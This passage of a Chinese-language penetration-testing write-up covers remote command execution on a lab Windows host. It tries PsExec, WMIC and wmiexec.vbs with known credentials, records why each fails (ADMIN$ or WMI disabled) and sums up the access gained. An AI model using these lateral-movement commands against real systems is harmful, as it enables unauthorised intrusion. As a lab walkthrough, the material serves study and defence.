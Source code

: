 如图2

![这里写图片描述](http://drops.javaweb.org/uploads/images/34d0086097a064a3e272896139371baebdfd7bac.jpg)

2、psexec
--------

```
PsExec.exe \\192.168.40.137 /accepteula -u test -p testtest -c c:\runtest\calc.exe

```

找不到网络名，判断目标主机已禁用ADMIN$共享

如图3

![这里写图片描述](http://drops.javaweb.org/uploads/images/0df42beff40e74b921e90c2795b72965627f89ae.jpg)

3、WMIC
------

```
wmic /node:192.168.40.137 /user:test /password:testtest process call create calc.exe

```

Description = 无法启动服务，原因可能是已被禁用或与其相关联的设备没有启动，判断WMI服务被禁用

如图4

![这里写图片描述](http://drops.javaweb.org/uploads/images/da55a24209809f5e676e83159d319b0a150e7249.jpg)

4、wmiexec
---------

```
cscript.exe wmiexec.vbs /cmd 192.168.40.137 test testtest "ipconfig"

```

WMIEXEC ERROR: 无法启动服务，原因可能是已被禁用或与其相关联的设备没有启动，判断WMI服务被禁用

如图5

![这里写图片描述](http://drops.javaweb.org/uploads/images/eab81e7c5da8f5c501596bfffd1ea07e47254055.jpg)

0x05 分析
=======

* * *

整理下目前掌握的目标主机信息：

目标主机:

```
1、已获得登陆用户名及口令
2、可以net use连接
3、开放共享C

```
